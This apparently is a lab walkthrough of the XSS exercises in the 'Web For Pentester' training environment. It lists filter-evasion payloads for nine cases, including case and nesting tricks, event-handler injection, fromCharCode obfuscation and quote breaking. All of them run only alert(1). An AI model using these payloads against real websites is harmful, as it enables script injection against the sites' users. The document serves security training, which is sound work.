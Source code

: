 ## Cross Site Scripting (XSS) 
``` Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it. ```


### Web For Pentester ( XSS ) Walkthrough
### Example 1
``` There is no input validation, so, can exploit it directly with the classic “alert(1)” injection. ```
### Payload - <script>alert(1)</script>


### Example 2
``` Filtered <script> and </script> with preg_replace function ```
### Payload - <sCript>alert(1)</sCript> and <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
### Example 3
``` Use PCRE modifier “i” (PCRE_CASELESS) to match both upper and lower case letters. However, recursion method still works fine. ```
### Payload - <scr<script>ipt>alert(1)</scr</script>ipt>
  
  
  
### Example 4 
``` The script will stop when “script” is detected, Need other event without script ```
### Payload - `<img src="x" onerror="alert(1)">  and <div onmousemove="alert(1)" src="xxxx"> , etc... `
  
  
  
### Example 5
``` Filtered keyword “alert” ```
### Payload - <script>eval(String.fromCharCode(97,108,101,114,116,40,49,41))</script> or <script>confirm(1)</script> or <script>prompt(1)</script>  etc ... 



### Example 6
``` User input has been included in “<script>” tab, so we do not need input “<script>” and just close the first double quote and use “//” to comment the following strings. ```
### Payload - ";alert(1);//


### Example 7
``` This time the developer use PHP function “htmlentities()” to deal with user input, the “htmlentities()” function will encode special characters which will break the XSS injection. However, the developer did not indicate any flags to function “htmlentities()” which default only use flags “ENT_COMPAT | ENT_HTML401”, “ENT_COMPAT” flag only convert double quotes and leave single quotes alone```
### Payload - ';alert(1);//



### Example 8
``` Did correct validation on parameter “name”, but the problem happened on “$_SERVER[PHP_SELF]”. Due to there is no validation on parameter “PHP_SELF” which is controlled by user. ( The filename of the currently executing script, relative to the document root. For instance, $_SERVER['PHP_SELF'] in a script at the address http://example.com/foo/bar.php would be /foo/bar.php. The __FILE__ constant contains the full path and filename of the current (i.e. included) file. If PHP is running as a command-line processor this variable contains the script name since PHP 4.3.0. -php.net )  ```
### Payload - /" onmouseover="alert(1)



### Example 9
```  DOM-based XSS. the user input is in URL after “#”, so just put payload after “#” in URL will trigger the vulnerability ```
### Payload - <script>alert(1)</script>  ( Test on IE or Edge )


### Noted by [Useful Link](https://owasp.org/www-community/xss-filter-evasion-cheatsheet#HTML_entities)



### Noted by [konova](https://www.facebook.com/kon0va)

### Ref : 
- [F4l13n5n0w](http://f4l13n5n0w.github.io/blog/2015/05/21/pentesterlab-web-for-pentester-xss/)
- [OWASP](https://owasp.org/www-community/attacks/Code_Injection)
- [php.net](https://www.php.net)
